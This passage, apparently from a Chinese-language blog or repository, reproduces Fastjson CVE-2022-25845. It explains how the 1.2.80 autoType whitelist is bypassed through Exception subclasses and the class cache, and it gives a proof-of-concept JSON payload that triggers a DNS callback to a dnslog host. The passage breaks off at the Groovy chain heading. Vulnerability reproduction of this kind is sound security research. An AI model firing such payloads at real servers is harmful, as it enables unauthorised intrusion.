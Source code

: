 ## Fastjson  CVE-2022-25845 漏洞复现

## 1. 说明

Fastjson于5月23日，在[commit 560782c](https://github.com/alibaba/fastjson/commit/560782c9ee12120304284ba98b61dc61e30324b3)与[commit 097bff1](https://github.com/alibaba/fastjson/commit/097bff1a792e39f4e0b2807faa53af0e89fbe5e0)中更新了[security_update_20220523](https://github.com/alibaba/fastjson/wiki/security_update_20220523)的修复方案。调整黑白名单的同时额外判断了`Exception`，并在添加类缓存mappings前新增了`autoTypeSupport`的判断。

显而易见`Exception`的派生类中出了叛徒，不久后[fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)更新了黑名单类名，直到前几天漏洞作者[iSafeBlue](https://github.com/iSafeBlue)公开了思路与Gadgets，本文是对浅蓝师傅给出的提示的进行复现与记录。

1.2.80第一步依然是基于众所周知的期望类机制将其它类加入类缓存，关键在于怎么横向出`Exception`之外的其它类型。

Fastjson反序列化恢复类实例时，自然也需要恢复用到了的类属性。如果这个属性是可利用的类且我们可控，是不是就能直接利用 或者进一步横向扩展出其它类间接利用。上一篇我们说到了期望类不但可以由JSON显式指定，同样可以由类间关系隐式确定，那么依靠属性名赋值时的隐式类间关系，也就不再需要在JSON中显式指定`@type`，从而绕过了`autoType`的白名单检查。

实例化类属性的对应类后，**fastjson**会将其加入到类缓存mappings中，从缓存中取类在修复前不会判断`autoTypeSupport`，所以绕过了类白名单机制扩展出更多的可用类。

## 2. 利用流程

1. 指定显式期望类，实例化`XXXException`并被加入类缓存
2. 通过`XXXException`中可控的属性名/参数名，由隐式类间关系实例化并被加入类缓存
3. 直接从缓存中拿出来用，或者进一步递归让其它类被加入到缓存

第二步的重点在于，既然不能显示指定期望类，就只能依靠`deserializer`去自动处理，我们需要构造出让它解析时进到特定`deserializer`分支的特定格式。对此我提供一个`aspectj`读文件和`groovy`远程类加载的具体实现便于师傅们理解复现。更多Gadgets浅蓝师傅在Slides中写得很清楚了，可以自行构造。



**浅蓝师傅公开了几个利用方式，个人认为groovy 的这条链最为常见。**

###  3. fastjson1.2.80版本相关的探索

![image-20220904110702522](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220904110702522.png)

相关的测试poc

```java
{
 "@type":"java.lang.Exception"，
 "@type":"com.alibaba.fastjson.JSONException", 
 "x":{
    "@type":"java.net.InetSocketAddress"{"address":,"val":"7dok0ohg.dnslog.pw"}
  }
}
```

![image-20220903230303704](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903230303704.png)



### 4. 漏洞复现之Groovy链

1. 漏洞原理
